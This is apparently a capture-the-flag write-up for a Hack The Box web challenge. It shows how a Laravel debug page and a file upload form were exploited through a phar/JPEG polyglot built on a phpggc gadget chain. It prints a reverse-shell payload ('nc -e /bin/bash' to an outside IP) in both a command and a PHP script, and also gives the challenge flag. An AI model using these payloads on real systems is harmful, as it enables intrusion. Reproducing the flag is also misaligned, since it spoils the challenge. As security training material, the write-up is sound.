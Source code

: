 +++
title = "Userland City"
category = "web"

+++

> You are part of a multinational law enforcement operation called  "Takeover" that targets underground darknet markets, the new target is a referral only market called Userland City. After a string of ops  intercepting traffic in TOR exit nodes, we managed to obtain a verified  vendor's account that goes by the name of lxkid. We're ready for stage  "Downfall", Europol has provided us with key software components to  capture cleartext credentials from all marketplace users, spyware to  deliver through key accounts operating with downloadable deliveries, and help us remove the existing image database including the metadata  removal tool. Old IRC logs from one of those devs suggest that the  marketplace is built on top of the latest Laravel version and debug mode is enabled. The credentials of the vendor’s account are  lxkid02:8rsNN9ohfLp69cVRFEgk4Qzs

## Enumeration

We're given creds in the description of the challenge, and a login page with a captcha as the landing page:

![image-20201123023324618](../image-20201123023324618.png)

I'm not coming from a Tor IP address, and the captcha is not exploitable in any way we found, so we're going in prepared for a lot of theming and extra information (some might call 'lore').

After logging in, we see a products page with various illegal wares.

![image-20201123023507292](../image-20201123023507292.png)

Messages and orders are not real links, but we do have a products page where we can upload files:

![image-20201123023541694](../image-20201123023541694.png)

This is interesting as it's the only real functionality of the application. We're also keeping a lookout for anything pointing to a `Laravel` debug page/stack trace, since that was mentioned in the description-- so this seems like the juiciest place to look.

However, before actually being able to do anything with this form, we tried:

- Gobusting (sorry) 
  - Challenge author left troll (I think) files .htaccess (apache2) and web.config (IIS) when it's an nginx server
- Reading the about page lore FEROCIOUSLY and looking up posts from five years ago on the silk road subreddit
- Sobbing, loudly
- Reading the source of every page

So I guess my point is that I have no idea what I'm doing.

## Debug Page

Anyhow, if we upload a picture, the form works exactly as you would expect. However, if we upload something that is NOT a picture, and try to navigate to it, we get a Laravel debug page! (Well, technically Ignition/Flame or whatever).

![image-20201123024103551](../image-20201123024103551.png)

This also leaks part of the `ProductsContorller.php` file, which turns out to be useful. We see that our `$filename` (presumably extracted from the URL) is being passed to file handling operations. If there's an existing gadget/pop chain, and the `phar` "scheme" enabled, we can exploit the application for either LFI or RCE.

## Exploitation

So, downloading `phpggc`, we see that there are some gadgets for Laravel:

![image-20201123024507302](../image-20201123024507302.png)

RCE6 looks like the most recent one, let's try that! With source code leaked from the debug page, we can see that the application is checking for a mime type that starts with `image/`. This means we need to upload a file that is a `phar` and `jpeg` (or `gif` or whatever) polygot. I tried using `phpggc` as a tool:

```bash
./phpggc -pj ./example.jpg -o ./cool.phar laravel/RCE6 'nc -e /bin/bash 167.172.15.1 4250'
```

And many variations on the above, but nothing worked. So we had to use a custom script (thank you to makelaris for help with this!). `gadgets.php` is pulled from `phpggc/gadgetchains/Laravel/RCE/6/gadgets.php`.

```php
<?php
    require('./gadgets.php');
    $code = '<?php system("nc -e /bin/bash 167.172.15.1 4250") ?>';
    $expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
    $image = new \Illuminate\Support\MessageBag($expected);

    $image = file_get_contents('example.jpg');

    $phar = new Phar('payload.phar', 0);
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($image);
    $phar->setStub("${image} __HALT_COMPILER(); ?>");

    rename('payload.phar', 'payload.jpg');
?>
```

Viewing the image, we see that it is indeed a real JPEG:

![image-20201123204013947](../image-20201123204013947.png)

And we append the `phar` scheme to the image path, for an error and a callback.

![image-20201123204058418](../image-20201123204058418.png)

![image-20201123025248648](../image-20201123025248648.png)

 Now we have a shell, and can browse to grab the flag at `/flag/flagc6NpQ`!

![image-20201123024905098](../image-20201123024905098.png)

This was a really interesting challenge! It felt like one of the most "real-world" ones I've done, and I learned a ton. Would highly recommend :)

Flag: `HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_way_t0_pr1s0n}`
